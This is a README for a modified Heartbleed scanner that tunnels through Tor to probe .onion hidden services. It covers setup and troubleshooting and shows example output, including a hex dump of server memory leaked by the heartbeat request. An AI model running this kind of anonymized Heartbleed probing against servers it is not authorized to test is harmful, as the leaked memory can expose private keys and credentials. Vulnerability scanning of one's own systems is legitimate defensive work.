 tortbleed
=========

Modification of Samiux's Heartbleed Reload scanner to allow direct scanning of .onion addresses.

==========System Requirements==========

- SocksiPy ( Available here: https://github.com/mikedougherty/SocksiPy ).

- urllib2 ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/urllib2.py ).

- socket ( Available here, amongst others for python2.7:
  https://github.com/python-git/python/blob/master/Lib/socket.py ).

- A local tor server configured to allow you to connect through it to endpoints.  You do not
  necessarily need to configure it as a relay, so long as your IP is configured in a
  'SocksPolicy accept' rule.  Being configured as a relay will not have a negative impact,
  though, should you have that set-up.

- Python 2.7, as this was the only version I tested this script against.  Please feel free to
  modify it to work with whatever version you might be using other than 2.7.

==========Setup & Usage==========

You must do the following, or this scanner just wont work:

1. Ensure you have installed and setup Tor on a system accessible to you to ensure you can
   bounce through it via this script.

2. Edit your copy of torwrapper.py to suit your Tor instance ip / hostname and port to access,
   on lines 11 & 12.

3. Copy the edited torwrapper.py file to your Python site-packages directory.

4. Ensure you have installed the SocksiPy, socket, and urllib2 site-packages properly.

Once those steps are completed, you can then run the scanner.  The usage output is below, along
with an example with output:

$ ./tortbleed.py <snipped for privacy>.onion

Starting Tor Daemon & Connecting to Tor Network...

Connected to Tor Relay. My ip is 188.138.9.49 (atlantic480.us.unmetered.com)

Sending Client Hello...

Waiting for Server Hello...

 ... received message: type = 22, ver = 0302, length = 66
 
 ... received message: type = 22, ver = 0302, length = 2483
 
 ... received message: type = 22, ver = 0302, length = 331
 
 ... received message: type = 22, ver = 0302, length = 4
 
Sending heartbeat request... Unexpected EOF receiving record header - server closed connection

No heartbeat response received, server likely not vulnerable


$ ./tortbleed.py 192.168.1.43

Connecting to non-onion address...

Sending Client Hello...

Waiting for Server Hello...

 ... received message: type = 22, ver = 0302, length = 58
 
 ... received message: type = 22, ver = 0302, length = 961
 
 ... received message: type = 22, ver = 0302, length = 525
 
 ... received message: type = 22, ver = 0302, length = 4
 
Sending heartbeat request...

 ... received message: type = 24, ver = 0302, length = 16384
 
 Received heartbeat response:
 
 0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
 
 0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
 
 0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
 
 0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
 
 0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
 
 0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
 
 0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
 
 0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
 
 0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
 
 0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
 
 00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
 
 00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
 
 00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
 
 00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
 
 --snipped output remaining output for readme brevity--

WARNING: server returned more data than it should - server is vulnerable!

==========Troubleshooting==========

You may get tracebacks because I haven't included any error handling.
The two most common I found during testing are explained below.

1 - socks.Socks5Error: ((2, 'connection not allowed by ruleset'),)
This occurs when the Tor Relay you are connected to for this particular scan doesn't allow
outgoing connections to the .onion you are attempting to scan.  Most often, attempting another
run of the same command will connect you to another Relay and allow this to go through.  If,
however, you hit the same error, another few attempts may be required.

2 - socks.Socks5Error: ((91, 'request rejected or failed'),)
This happens when connection to the .onion endpoint fails to successfully complete through the
Tor Relay you are connected through.  This can be for a number of reasons, and may be worth
trying once more.  Same result usually means problems with the .onion server (either not having
the port you're attempting to scan on enabled, or other connection-related issues).

Good luck!

Mike <michael@prattlecorp.com>
